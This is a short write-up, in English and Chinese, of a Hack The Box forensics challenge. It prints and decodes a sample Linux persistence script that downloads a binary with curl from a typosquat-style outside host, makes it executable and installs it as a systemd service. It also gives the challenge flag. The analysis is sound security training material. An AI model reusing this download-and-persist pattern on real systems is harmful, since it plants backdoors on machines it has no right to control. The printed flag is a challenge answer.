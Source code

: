 # Extraterrestrial Persistence

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?

有传言称，外星人开发了一种无法被检测到的持久化机制。在调查她最近被入侵的Linux服务器后，潘多拉发现了一个可能是这种机制的样本。你能分析它并找出他们是如何安装这种持久化机制的吗？

:::

附件提供了一份脚本

```shell
n=`whoami`
h=`hostname`
path='/usr/local/bin/service'
if [["$n" != "pandora" && "$h" != "linux_HQ"]]; then exit; fi

curl https://files.pypi-install.com/packeges/service -o $path

chmod +x $path

echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service
```

将中间的载荷进行 Base64 Decode

```plaintext
W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA==

[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```

```plaintext title="Flag"
HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
```
